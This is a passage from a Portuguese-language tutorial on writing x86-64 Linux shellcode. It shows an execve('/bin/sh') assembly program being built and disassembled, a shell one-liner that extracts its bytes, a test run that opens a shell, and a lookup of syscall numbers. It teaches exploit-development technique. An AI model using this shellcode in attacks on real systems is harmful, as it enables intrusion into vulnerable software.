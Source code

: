 Podemos "assemblar" e *linkar* o código:

```bash
$ nasm -f elf64 shell.asm
$ ld -o shell shell.o
```


Agora podemos utilizar o utilitário `objdump` para obtermos o *machine code* do programa:

```bash
$ objdump -d shell
```

```
shell:     file format elf64-x86-64


Disassembly of section .text:

0000000000401000 <_start>:
  401000:       48 31 d2                xor    %rdx,%rdx
  401003:       48 bb 2f 2f 62 69 6e    movabs $0x68732f6e69622f2f,%rbx
  40100a:       2f 73 68 
  40100d:       48 c1 eb 08             shr    $0x8,%rbx
  401011:       53                      push   %rbx
  401012:       48 89 e7                mov    %rsp,%rdi
  401015:       52                      push   %rdx
  401016:       57                      push   %rdi
  401017:       48 89 e6                mov    %rsp,%rsi
  40101a:       b8 3b 00 00 00          mov    $0x3b,%eax
  40101f:       0f 05                   syscall
  ```

Assim como no *shellcode*  anterior, o que nos interessa é a sequência de *bytes*, portanto podemos utilizar o mesmo *oneliner*:

```bash
$ for i in $(objdump -d shell | grep '^ ' | cut -f2); do echo -n '\x'$i;done;echo
```

E após a compilação do programa de teste de 64-bits, temos o *shellcode* em operação:

```bash
$ ./shellcodetest64 
sh-5.2$
```

### Onde encontrar os números das syscalls?

Dentro ta estrutura do próprio Linux, podemos consultar o número de cada *syscall*, estas bibliotecas, na maioria das distribuições, está no diretório `/usr/include/asm` podendo variar de uma para outra.

No Arch Linux, utilizado para escrever este artigo, podemos, por exemplo, consultar o número da *syscall execve*  na arquitetura 64-bits da seguinte forma:

```bash
$ cat /usr/include/asm/unistd_64.h | grep execve
#define __NR_execve 59
```

---